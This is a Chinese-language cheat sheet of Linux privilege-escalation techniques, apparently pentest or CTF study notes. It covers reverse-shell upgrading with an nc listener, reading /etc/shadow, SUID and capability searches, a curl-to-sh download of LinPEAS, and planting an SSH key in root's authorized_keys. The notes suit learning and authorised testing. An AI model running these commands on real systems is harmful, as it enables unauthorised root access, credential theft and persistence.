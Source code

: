 ### 运行linpeas脚本以枚举远程服务器
    ./linpeas.sh

### 切换完整bash
```
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL + Z
stty raw -echo
fg
export TERM=xterm-color
```

``rlwrap nc -lvnp <port>``

---
## 手工枚举
```
id:显示当前⽤户的 UID（⽤户 ID）、GID（组 ID）以及所属的其他组的信息
who:显示当前登录的⽤户及相关信息，如登录时间、终端等
whoami:显示当前⽤户的⽤户名
w:提供关于当前登录⽤户的详细信息，包括他们在做什么以及系统的负载信息
last:显示系统最近的登录记录
```

```
uname -a:为我们提供关于系统使⽤的内核的附加详细信息。在寻找可能导致提权的任何潜在内核漏洞时，这将⾮常有⽤
lsb_release -a：这个命令⽤于显示Linux标准基础（LSB）的发⾏信息。 -a 选项表示显示所有
可⽤信息。它将显示诸如发⾏编号、发⾏名称、发⾏描述等信息
cat /proc/version ：这个命令⽤于显示内核版本和编译信息。 /proc/version ⽂件包含了内核
版本、编译器版本和其他相关信息。要查看是否安装了GCC就可以⽤这条命令
cat /etc/issue：这个命令⽤于查看系统的发⾏版本信息。 /etc/issue ⽂件包含了操作系统发⾏版的名称和版本
cat /etc/*-release：这个命令⽤于查看系统发⾏版的详细信息。它会搜索 /etc/ ⽬录下所有以
-release 结尾的⽂件，并显示它们的内容。这些⽂件通常包含操作系统的发⾏名称、版本、代号等信息
```

```
ip a:旧版命令ifconfig,这些命令为我们提供有关⽹卡、⽹络配置的信息。多张⽹卡配合路由信息可以发现内⽹⽹段
ip route：⽤于查询路由表，route是过时的命令
ip neigh：⽤于查询邻居表
arp -a：则⽤于显示ARP缓存，有些⼈⽤它作内⽹主机发现
```

```
hostname:查看机器主机名，新版内核linux可以用hostnamectl
```

```
getcap -r / 2>/dev/null:关于Linux capabilities ，它为进程提供了⼀部分可⽤的 root 权限
⼦集。有效地将 root 权限划分成较⼩且独特的单元。然后，可以独⽴地将这些单元授予进程。这样，权限集合就会减少，降低了被利⽤的⻛险
```

```
ls -liah:列出详细隐藏信息
history:历史记录
```

```
cat /etc/passwd
cat /etc/shadow
cat /etc/crontab:自动任务
echo $PATH
env:环境变量
ps -ef:查看进程
ps axjf ：查看进程树
```

```
netstat -a ：显示所有正在监听的端⼝和已建⽴的连接。
netstat -at 或 netstat -au 也可⽤于分别列出TCP或UDP协议。
netstat -l ：列出处于“监听”模式的端⼝。这些端⼝是打开的，并准备接受传⼊的连接。
可以将其与“t”选项⼀起使⽤，仅列出使⽤TCP协议监听的端⼝
netstat -s ：按协议列出⽹络使⽤统计数据（如下所示）也可以与 -t 或 -u 选项⼀起使⽤以限制
输出到特定协议
netstat -tp ：列出服务名称和PID信息的连接。
netstat -i ：显示接⼝统计信息。我们在下⾯看到“eth0”和“tun0”⽐“tun1”更活跃
```

```
find / -perm -u=s -type f 2>/dev/null ：查找设置了SUID位的⽂件，这使我们可以以⽐当前⽤
户更⾼的特权级别运⾏⽂件
```

```
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp tmux
screen 2>/dev/nul
```
![[Pasted image 20250504164902.png]]

```
cat /etc/fstab:检测未挂载的⽂件系统
```


---

## 自动化枚举
### LinPEAS

全称为Linux Privilege Escalation Awesome Script，是⼀个⽤来搜索类unix主机上可能
的提权路径的⾃动化脚本。
Github:https://github.com/peass-ng/PEASS-ng
```
curl -L https://github.com/carlospolop/PEASSng/releases/latest/download/linpeas.sh | sh
```

### LinEnum
⼀个流⾏的 Linux 本地枚举脚本，⽤于收集有关系统的各种信息，识别不安全的配置，
提取可⽤于提升权限的漏洞信息
Github:https://github.com/rebootuser/LinEnum

### linux-smart-enumeration (lse)
这是⼀个具有模块化功能的 Linux 本地枚举脚本它可在不同的等级上运⾏以获取不同详细程度的信息
Github:https://github.com/diego-treitos/linux-smart-enumeration

### linux-exploit-suggester
该⼯具主要⽤于识别 Linux 系统中可能存在的可利⽤的漏洞，
以帮助⽤户提升权限。
Github:https://github.com/The-Z-Labs/linux-exploit-suggester

### Linuxprivchecker
⼀个⽤于检查 Linux 系统潜在安全问题的 Python 脚本，
包括⽂件权限、系统服务和 SUID ⼆进制⽂件等。 
Github:https://github.com/sleventyeleven/linuxprivchecker

### unix-privesc-check
这个脚本主要⽤于识别 类UNIX 系统中可能的权限升级路径，
通过检查⽂件权限、系统配置等⽅⾯的问题
Github:https://github.com/pentestmonkey/unix-privesc-check




---

## sudo
### 列出可用sudo权限
    sudo -l
### 用sudo运行命令
    sudo -u Enil /bin/echo Hello World!
### 切换到root用户（如果我们有访问sudo su的权限）
    sudo su -

---

## 非对称加密
### 创建新的SSH密钥
    ssh-keygen -f key
### 将生成的公钥添加到用户
    echo "ssh-rsa AAAAB...SNIP...M= enil@aaa">> /root/.ssh/authorized_keys
### 使用生成的私钥SSH连接到服务器
    ssh root@10.10.10.10 -i key

### 枚举脚本
	PEASS

---
